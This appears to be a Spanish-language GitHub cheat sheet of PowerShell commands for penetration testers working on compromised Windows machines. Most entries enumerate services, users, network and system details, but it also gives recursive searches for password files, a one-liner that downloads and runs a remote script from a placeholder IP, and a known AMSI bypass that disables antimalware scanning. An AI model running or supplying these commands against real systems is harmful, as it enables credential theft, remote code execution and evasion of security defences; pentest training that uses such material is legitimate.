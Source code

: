 
## Listar ubicaciones de los servicios ejecutados 

Get-WmiObject -class win32_service |Format-List *

Get-WmiObject -class win32_service |Sort-Object -Unique PathName | fl Pathname

## Listar procesos sin que se repitan 

Get-Process | Sort-Object -Unique


# 🛠️ PowerShell for Pentesters

Comandos útiles en PowerShell para tareas de reconocimiento, post-explotación, evasión y búsqueda de información sensible en sistemas Windows comprometidos.

---

## 📋 Ver servicios

```powershell
Get-Service | ForEach-Object { $_.Name }

```

📍 Ubicaciones de los servicios ejecutados

```powershell
Get-WmiObject -Class win32_service | Format-List *

Get-WmiObject -Class win32_service | Sort-Object -Property PathName -Unique | Format-List PathName
```

🧠 Listar procesos únicos

```powershell
Get-Process | Sort-Object -Property ProcessName -Unique


👤 Enumeración de usuarios

```powershell
whoami
whoami /all
Get-WmiObject -Class Win32_ComputerSystem | Select-Object UserName
Get-LocalUser
net user
```

🛡️ Grupos y privilegios

```powershell
net localgroup administrators
```

🌐 Enumeración de red

```powershell
Get-NetAdapter | Format-Table
Get-NetIPAddress | Format-Table
Get-NetRoute
Get-NetTCPConnection | Where-Object { $_.State -eq "Established" }
```

🖥️ Información del sistema

```powershell
Get-WmiObject -Class Win32_OperatingSystem
Get-WmiObject -Class Win32_ComputerSystem
Get-ChildItem Env:
```

🔍 Buscar archivos sensibles por contenido

```powershell
Select-String -Path "C:\\Users\\*\\Documents\\*.txt" -Pattern "password"

Get-ChildItem -Path "C:\\Users" -Recurse -Include *.txt -ErrorAction SilentlyContinue |
Select-String -Pattern "password"
```

🗂️ Buscar archivos sensibles por nombre

```powershell
Get-ChildItem -Path "C:\\Users" -Recurse -ErrorAction SilentlyContinue -Force |
Where-Object { $_.Name -match "password|contraseña" }

Get-ChildItem -Path "C:\\Users" -Recurse -Include *password*,*passwords*,*contraseña* -File -ErrorAction SilentlyContinue
```

📅 Persistencia

```powershell
Get-ScheduledTask | Select-Object TaskName, TaskPath, State
Get-ChildItem -Path "C:\\Users\\*\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup"
```

🔧 Descarga y ejecución remota de scripts

```powershell
IEX (New-Object Net.WebClient).DownloadString("http://<IP>/script.ps1")
```


🧱 Bypass de restricciones

```powershell

[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

